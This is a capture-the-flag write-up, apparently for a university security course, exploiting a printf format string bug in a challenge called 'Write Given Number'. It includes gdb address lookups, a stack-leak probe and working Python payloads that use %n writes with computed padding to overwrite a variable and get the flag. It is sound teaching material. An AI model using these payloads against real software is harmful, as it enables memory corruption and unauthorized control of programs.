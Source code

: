 # Challenge `Write Given Number` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read and write the stack values and arbitrary registers** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22196`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 128, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can send `%08x.` characters to print the stack values. We need to see where in the stack our buffer is and update the targets value to something different. To check the **r and target address** we used the gdb debugger with the corresponding **binary** file. To get it, we made a breakpoint in **vuln** and used the following command:

```bash
gdb-peda$ p &r
$2 = (unsigned int *) 0x804a078 <r>


gdb-peda$ p &target
$1 = (unsigned int *) 0x804a070 <target>
```

Since we now have the address of the target we now need to know where in the stack the buffer starts. To do this we used the following payload:

```python
msg = (b"AAAA" + b"%08x."*20)
```

We obained: 
```bash
Your random value is: 0x736d8100
AAAAffffdc7c.0000007f.00000000.f7fe2a70.080481f8.00000001.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.
Oops, not quite! Target was: 00000000
```

Because we used the string `AAAA` as a reference, we can see that the buffer starts in the 7th place. Having this information, we can now try to overwrite the target value. This time around, we need to make the target have the value of r, which constantly changes. In order to do this, the chosen method was byte by byte. First we got to overwrite every byte using this as the message payload:

```python
msg = (
        b"\x70\xa0\x04\x08" + 
        b"\x71\xa0\x04\x08" +
        b"\x72\xa0\x04\x08" +
        b"\x73\xa0\x04\x08" +
        b"%7$n"+
        b"%8$n"+
        b"%9$n"+
        b"%10$n"
       )
```
We successfully overwrote the target value to **10101010**. This means we now just have to make padding adjustments to get the desired value. The code used to get the generated value of r and the calculations made for the necessary padding is the following:

```python
msg_received = r.recvline().decode()
r_value = msg_received[-9:]             # without the 0x

first_n = int(r_value[-3:],16)
second_n = int(r_value[-5:-3],16)
third_n = int(r_value[-7:-5],16)
forth_n = int(r_value[-9:-7],16)

# calculations for the padding
first_value = first_n - 16
if first_value < 0:
        first_value += 256
second_value = second_n - first_n
if second_value < 0:
        second_value += 256
third_value = third_n - second_n
if third_value < 0:
        third_value += 256
fourth_value = forth_n - third_n
if fourth_value < 0:
        fourth_value += 256
        
# convert to bytes
first_byte = str(first_value).encode()
second_byte = str(second_value).encode()
third_byte = str(third_value).encode()
fourth_byte = str(fourth_value).encode()
```

Since we have the paddings adjustments, we can now make the final payload:

```python
msg = (
        b"\x70\xa0\x04\x08" + 
        b"\x71\xa0\x04\x08" +
        b"\x72\xa0\x04\x08" +
        b"\x73\xa0\x04\x08" +
        b"%" + first_byte + b"x%7$n"+
        b"%" + second_byte + b"x%8$n"+
        b"%" + third_byte + b"x%9$n"+
        b"%" + fourth_byte + b"x%10$n"
       )


r.sendline(msg)

print(f"Flag: {r.recvall()}")

r.close()
```

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](write_given_number_poc.py)